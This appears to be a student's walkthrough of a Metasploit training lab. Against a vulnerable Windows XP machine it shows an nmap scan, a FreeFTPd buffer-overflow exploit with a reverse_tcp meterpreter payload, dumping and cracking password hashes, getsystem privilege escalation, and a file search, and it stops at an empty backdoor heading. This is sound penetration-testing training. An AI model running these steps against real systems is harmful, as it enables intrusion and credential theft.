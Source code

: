 # Metasploit Lab

## Description

In this lab, you will have to use Metasploit and meterpreter against a real
machine; this will help you become familiar with the Metasploit framework and
its features.

## Goals

- Identify the target machine on the network
- Find a vulnerable service
- Exploit the service by using Metasploit to get a meterpreter session
- Gather information from the machine by using meterpreter commands
- Retrieve the password hashes from the exploit machine
- Search for a file named \"Congrats.txt\"

## Recon

After connecting to the Hera Lab VPN, it is time to search for a vulnerable
target. I used nmap for this:

```
  $ nmap -sV -oN nmap_scan.txt 192.168.99.100/24 
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-23 12:43 EST
  Nmap scan report for 192.168.99.12
  Host is up (0.059s latency).
  Not shown: 994 closed ports
  PORT     STATE SERVICE       VERSION
  21/tcp   open  ftp           FreeFTPd 1.0
  22/tcp   open  ssh           WeOnlyDo sshd 2.1.8.98 (protocol 2.0)
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds  Microsoft Windows XP microsoft-ds
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, 
  cpe:/o:microsoft:windows_xp

```

From the scan we see that the IP address 192.168.99.12 has several services
running on it. Time to open up metasploit and determine which service is
vulnerable for exploit.

## Vulnerability Assessment

Searching for the FreeFTPd service in msfconsole yields the following results:

```
msf6 > search FreeFTPd 1.0

Matching Modules
================

   #  Name                                       Disclosure Date  Rank     Check  Description
   -  ----                                       ---------------  ----     -----  -----------
   0  exploit/windows/ftp/freeftpd_pass          2013-08-20       normal   Yes    freeFTPd PASS Command Buffer Overflow
   1  exploit/windows/ftp/freeftpd_user          2005-11-16       average  Yes    freeFTPd 1.0 Username Overflow
   2  exploit/windows/ssh/freeftpd_key_exchange  2006-05-12       average  No     FreeFTPd 1.0.10 Key Exchange Algorithm String Buffer Overflow

```

I chose the first exploit since it has the most recent disclosure data and higher rank. I left the default
payload as windows/meterpreter/reverse_tcp shell. 

The only options we need to change are the remote and local hosts:

```
set RHOSTS 192.168.99.12
set LHOST  192.168.99.100
```


## Exploitation
 
Run the exploit to spawn a meterpreter session.

### Cracking hashes

Once inside meterpreter, run the hashdump command:

```
meterpreter> hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
eLSAdmin:1003:aad3b435b51404eeaad3b435b51404ee:87289513bddc269f9bcb24d74864beb2:::
ftp:1004:4ff1ab31fc4b0ebdaad3b435b51404ee:9865c4bdcd9578a380297c5095e6c852:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:a88f7de3e682d17fea34bd03086620b5:2b07e52daf608f50d4cd9506c5b0220d:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9f79c84005db73e0122f424022f8dbc0:::
```

I copied the output to a file named hashdump.txt and fed it to john:

```
$ john hashdump.txt
```

### Escalate Privileges

We can escalate our privileges with the getsystem command:

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Print Congrats.txt

The Congrats.txt file can easily be found with the search command:

```
meterpreter > search -f Congrats.txt
Found 1 result...
    c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt (64 bytes)
meterpreter > cat "c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt"
    Congratulations! You have successfully exploited this machine!
```

## Install a Backdoor


